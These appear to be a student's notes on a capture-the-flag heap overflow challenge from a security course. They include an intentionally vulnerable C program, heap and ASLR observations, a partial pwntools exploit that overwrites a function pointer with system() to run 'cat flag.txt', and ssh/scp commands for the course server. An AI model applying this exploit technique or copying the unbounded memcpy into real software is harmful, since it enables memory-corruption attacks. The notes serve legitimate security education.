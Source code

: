 ```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct script_manager {
	int valid_script;
	int (*fp)(const char *);
};

int env_scan() {
	int code;
	FILE* f;
	f = fopen("./flag.txt", "r");
	fread(&code, sizeof(int), 1, f);
	fclose(f);
	return code;

}


int main(int argc, char **argv) {
	char *d;
	struct script_manager *f;

	d = malloc(32);
	f = malloc(sizeof(struct script_manager));
	f->fp = puts;
	f->valid_script = env_scan();

	memcpy(d, argv[1], strlen(argv[1]));

	if(f->valid_script == env_scan()) {
		f->fp(d);
	}

}
```
- `memcpy()` copies argument into the 
- We do not have an opportunity to overflow the stack
- Are things adjacent in the heap
	- probably not
	- `int valid_script env_scan()` acts like a canary
	- prevents an overflow of the heap, requires a memory leak

### Heap Behavior when Malloc is called
- Where are d and f relative to eachother on the heap?
- gdb, they are about 0x30(48) away from eachother
	- d is size 48, so they are adjacent
- GEF command
	- `heap chunks` - allows you to look at allocated heap chunks

```python

exploit_str = b'a'*48
p.process(["./heap0", exploit_str])

p.recvall()
p.wait()

#after the flag is leaked
canary = b'LLLL'
addr_system = 0x0 #put real addr of system here
exploit_str = flat({0: b'cat flag.txt;'
					48: canary, 
					48+8: p64(addr_system)[:6]})# grab first six bytes ignore last two

```
- "heap canary" is just the first four bytes of the flag
	- in example, it will be 'LLLL'
	- will stay the same every time!
- one of the bytes in the system address could be interpreted as a backtick

### With ASLR
- overwrite system address bytes one at a time
- see what the addresses look like for multiple runs
- three least significant nibbles will be the same
- most significant byte will be the same
```
System
0x7f 4dcbc7 1d60
0x7f 397f14 9d60
0x7f b23e1d 3420
0x7f 4304b6 e420

Puts
0x7f 4dcbca 1ed0
0x7f 397f17 9ed0
0x7f b23e20 4970
0x7f 4304b9 f970
```
**Why does ASLR always end in 3 zeros**
- page allignment
- libc needs to start where a page starts

### Move binary to ssh server

```bash
# Generate the key pair for username bro 
ssh-keygen -t rsa -f ./kcjesse_ssh_key -C kcjesse -b 2048 
# Install the public key on the server 
ssh-copy-id -i kcjesse_ssh_key.pub kcjesse@cs4401shell2.walls.ninja 
# Test to make sure the public key was created correctly 
ssh -i ../keys/kcjesse_ssh_key kcjesse@cs4401shell2.walls.ninja

ssh kcjesse@cs4401shell2.walls.ninja
```

send file
`scp -i ../keys/kcjesse_ssh_key heap0.py kcjesse@cs4401shell2.walls.ninja:/home/kcjesse`

recvfile
`scp -i ../keys/kcjesse_ssh_key kcjesse@cs4401shell2.walls.ninja:/home/kcjesse/out.txt /root/host-share/CS4401/heap0`

`scp -i ../keys/kcjesse_ssh_key kcjesse@cs4401shell2.walls.ninja:/home/kcjesse/out.txt /Users/katherinejesse/CS4401/heap0`

`scp -i ../keys/kcjesse_ssh_key kcjesse@cs4401shell2.walls.ninja:/home/kcjesse/out.txt /root/host-share/CS4401/heap0`